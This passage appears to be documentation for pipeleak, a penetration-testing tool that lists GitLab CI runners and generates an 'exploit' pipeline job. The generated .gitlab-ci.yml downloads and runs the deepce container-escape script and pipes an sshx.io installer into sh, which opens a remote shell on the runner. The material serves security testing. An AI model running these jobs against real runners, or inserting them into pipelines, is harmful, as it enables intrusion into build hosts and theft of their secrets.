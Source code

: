 Chances are high that if pipelines are used, custom runners are registered. These come in different flavors. Most of the time the docker executor is used, which allows pipelines to define container images in which their commands are executed. For a full list of possibilities [rtfm](https://docs.gitlab.com/runner/executors/).

If you can create projects or contribute to existing ones, you can interact with runners. We want to test if it is possible to escape from the runner context e.g. escape from the container to the host machine or if the runner leaks additional privileges e.g. in the form of attached files or environment variables set by the runner config.

First, you need to enumerate what (shared) runners are available.
Doing this manually by creating a project or navigating to an existing one.
Open the CI/CD Settings page and look at the Runners section: https://leakycompany.com/my-pentest-prject/-/settings/ci_cd
Runners can be attached globally, on the group level or on individual projects.

Using pipeleak we can automate runner enumeration:
```bash
$ pipeleak runners --token glpat-[redacted] --gitlab https://gitlab.com -v list
2024-09-26T14:26:54+02:00 INF group runner description=2-green.shared-gitlab-org.runners-manager.gitlab.com name=comp-test-ia paused=false runner=gitlab-runner tags=gitlab-org type=instance_type
2024-09-26T14:26:55+02:00 INF group runner description=3-green.shared-gitlab-org.runners-manager.gitlab.com/dind name=comp-test-ia paused=false runner=gitlab-runner tags=gitlab-org-docker type=instance_type
2024-09-26T14:26:55+02:00 INF group runner description=blue-3.saas-linux-large-amd64.runners-manager.gitlab.com/default name=comp-test-ia paused=false runner=gitlab-runner tags=saas-linux-large-amd64 type=instance_type
2024-09-26T14:26:55+02:00 INF group runner description=green-1.saas-linux-2xlarge-amd64.runners-manager.gitlab.com/default name=comp-test-ia paused=false runner= tags=saas-linux-2xlarge-amd64 type=instance_type
2024-09-26T14:26:55+02:00 INF Unique runner tags tags=gitlab-org,saas-linux-large-arm64,windows,gitlab-org-docker,e2e-runner2,saas-macos-large-m2pro,saas-linux-xlarge-amd64,saas-linux-small-amd64,saas-linux-2xlarge-amd64,saas-linux-medium-amd64,saas-windows-medium-amd64,e2e-runner3,saas-linux-medium-arm64,saas-linux-medium-amd64-gpu-standard,saas-macos-medium-m1,shared-windows,saas-linux-large-amd64,windows-1809
2024-09-26T14:26:55+02:00 INF Done, Bye Bye 🏳️‍🌈🔥
```

Review the runners and select the interesting ones. The Gitlab Ci/CD config file allows you to select runners by their tags. Thus we create a list of the most interesting tags, printed by the command above.

Pipeleak can generate a `.gitlab-ci.yml` or directly create a project and launch the jobs.

```bash
# Manual creation
$ pipeleak runners --token glpat-[redacted] --gitlab https://gitlab.com -v exploit --tags saas-linux-small-amd64 --shell --dry
2024-09-26T14:32:26+02:00 DBG Verbose log output enabled
2024-09-26T14:32:26+02:00 INF Generated .gitlab-ci.yml
2024-09-26T14:32:26+02:00 INF ---
stages:
    - exploit
pipleak-job-saas-linux-small-amd64:
    stage: exploit
    image: ubuntu:latest
    before_script:
        - apt update && apt install curl -y
    script:
        - echo "Pipeleak exploit job"
        - id
        - whoami
        - curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
        - chmod +x deepce.sh
        - ./deepce.sh
        - curl -sSf https://sshx.io/get | sh -s run
    tags:
```